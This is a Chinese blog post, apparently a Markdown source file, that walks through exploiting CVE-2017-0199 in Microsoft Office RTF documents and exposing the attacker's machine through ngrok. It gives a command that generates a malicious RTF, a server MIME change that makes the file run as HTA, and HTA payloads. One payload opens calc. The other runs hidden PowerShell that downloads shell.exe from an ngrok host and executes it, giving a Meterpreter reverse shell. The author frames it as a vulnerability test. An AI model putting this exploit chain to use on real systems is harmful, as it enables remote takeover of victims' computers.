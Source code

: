 ```yaml
---
title: 对CVE-2017-0199的一次复现过程与内网穿透的利用
date: 2017-4-22 11:41:00
layout: post
tags:
- 漏洞测试
- CVE-2017-0199

---
```

>FireEye最近检测到使用CVE-2017-0199漏洞的恶意Microsoft Office RTF文档，这是以前从未发现的漏洞。
    CVE-2017-0199漏洞发布日期为2017年4月11号，受影响系统包括：
```
       Microsoft Office 2016
       Microsoft Office 2013
       Microsoft Office 2010
       Microsoft Office 2007
```

该漏洞利用OFFICE OLE对象链接技术，将包裹的恶意链接对象嵌在文档中，OFFICE调用[URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)（COM对象）将恶意链接指向的HTA文件下载到本地， [URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)通过识别响应头中content-type的字段信息最后调用mshta.exe将下载到的HTA文件执行起来。

首先我们要用到一个Python脚本用来生成CVE-20170199的利用脚本，项目地址为：[https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
里面有详细的文档就不一一介绍了。
### 生成RTF文件
  使用如下命令进行生成恶意的RTF文件

  `python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://192.168.0.104/test.rtf`


### 加入POC

  在192.168.0.104根目录下创建一个为test的rtf文件，并且将如下代码写入到该文件中
  ```
  Test CVE-2017-0199
<script>
poc=new ActiveXObject("WScript.Shell");
poc.run('%SystemRoot%/system32/calc.exe ');window.close();
</script>
  ```
### 更改MIME
 在Apache安装目录下找到conf文件夹，把里面的mime.types文件中的
 >application/rtf					rtf

替换为

 >application/hta					rtf

 然后重启Apache

### 执行poc
  重启完Apache后打开恶意的RTF文件你将看到：

  ![](./../img/calc.jpg)
  wr6666 弹出了计算器

  >你以为只能弹出计算器？
  >
  >这不表结束这只是开始。

### 内网穿透
科普：

      内网穿透即NAT穿透，网络连接时术语，计算机是局域网内时，外网与内网的计算机节点需要连接通，有时就会出现不支持内网穿透。就是说映射端口,能让外网的电脑找到处于内网的电脑,提高下载速度。不管是内网穿透还是其他类型的网络穿透，都是网络穿透的统一方法来研究和解决。在百科词条NAT穿越，nat穿透中有关于网络穿透的详细信息。
-----来自百度百科

简单地说就是将内网的端口映射出去，使得外网的机器可以访问内网的资源。

内网穿透的平台有很多，比如
  >1.[NATAPP 基于 ngrok 高速内网穿透](http://natapp.cn/)
  >
  >2.[Ngrok 国内免费服务器](http://qydev.com/)
  >
  >3.[Sunny-Ngrok 内网转发](http://www.ngrok.cc/)
  >
  >4.[gotunnel.org](http://gotunnel.org/)
  >
  >5.[花生壳软件-内网也能用！内网动态域名](http://hsk.oray.com/)
  >
  >6.[网络通内网端口映射](http://www.dkys.org/)

  这里使用Ngrok进行实验
 注册方式略过。

 HTTP隧道:

 ![](./../img/ngrok-http.jpg)
 为什么要用HTTP隧道？
 >在后面使用本机的Web环境映射出去,这样就可以通过外网来访问本机的资源（放恶意RTF文件和msf生成的shellcode）

 TCP隧道:

 ![](./../img/ngrok-tcp.jpg)
  为什么要用TCP隧道？
 >让外网的机器反弹一个shell到TCP隧道然后转发到kali下，这样kali就可以控制外网机器（反弹shell用）

### 内网穿透的利用
  下载对应的客户端版本
  这里用win10测试，建立完成HTTP、TCP隧道后连接隧道，开启本机的apache服务
  他应该是长这样的：
  ![](./../img/ngrok-connect.jpg)
192.168.0.108是kali 的IP地址 4444为kali监听的地址

用msfvenom生成64位的shellcode（多少位的并不重要,可以直接使用windows/meterpreter/reverse_tcp）此处msfvenom的LHOST和LPORT应该是TCP隧道的IP和端口也就是server.ngrok.cc的IP和刚刚填写的反弹端口（测试用的是1419）
 所以它应该是这样的：

 ![](./../img/cve-2017-0199-msfvenom.jpg)

然后把shell.exe移到win10的web根目录下
然后msf应该是设置成这样的：
![](./../img/cve-2017-0199-msf.jpg)
监听的IP是本机的（TCP隧道里填写的映射ip）,端口也是TCP隧道里填写的映射端口

 然后修改下POC并改为：
  ```
  Test
  <script>
  poc=new ActiveXObject("WScript.Shell");
  poc.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://meterpreter.ngrok.cc/shell.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
  </script>

  ```
  保存为test.rtf
 >`http://meterpreter.ngrok.cc/shell.exe 是HTTP隧道把web环境映射到了http://meterpreter.ngrok.cc/所以shell.exe是在本机WEB根目录下的shell.exe`

 然后将恶意的test.rtf（这不是POC的那个test.rtf，是前文用Python脚本生成的test.rtf恶意文件），在外网的机器打开
 ***
 Then 。。。。。
 ***
 休息了下发现隧道的服务器打不开了QAQ。实验没法继续，最后一步就是在外网机器上打开，然后MS将会收到一个会话... 就不贴图了

